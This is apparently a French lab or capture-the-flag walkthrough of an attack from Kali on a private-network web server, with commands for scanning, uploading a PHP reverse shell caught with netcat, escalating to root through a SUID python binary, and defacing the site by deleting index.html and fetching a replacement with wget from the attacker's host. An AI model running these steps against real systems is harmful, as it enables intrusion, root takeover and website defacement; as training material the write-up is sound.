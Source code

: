 # Attaque depuis kali:

## Reconnaissance

> nmap 192.168.60.0/24

On trouve un serveur http sur le port 80 sur 192.168.60.10

Visite du site web via le navigateur, on trouve notamment que le serveur utilise php

> dirb http://192.168.60.10/

> dirb http://192.168.60.10/ -X .php

Avec dirb on a trouvé les pages /upload.php et /uploads

## Reverse shell

Upload de shell.php depuis /upload.php

Attente du reverse shell depuis kali:

> nc -nlvp 9001

Ouvrir shell.php dans /uploads

## Escalade de privilèges

Trouver les fichiers avec SUID d'activé:

> find / -perm -u=s -type f 2>/dev/null

Utiliser python pour l'escalade:

> cd /usr/bin

> ./python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Vérifier qu'on est root:

> whoami

## Défiguration

Depuis le reverse shell:

> cd /var/www/html

Vérifier qu'on est dans le bon dossier:

> ls 

Depuis un nouveau terminal kali, depuis le dossier server sur le bureau, lancher un serveur pour transférer les fichiers:

> python -m SimpleHTTPServer

Depuis le reverse shell, supprimer index.html, puis télécharger les fichiers nécessaires à afficher la nouvelle page d'acceuil:

> rm index.html

> wget http://192.168.60.11:8000/index.html

> wget http://192.168.60.11:8000/index.html
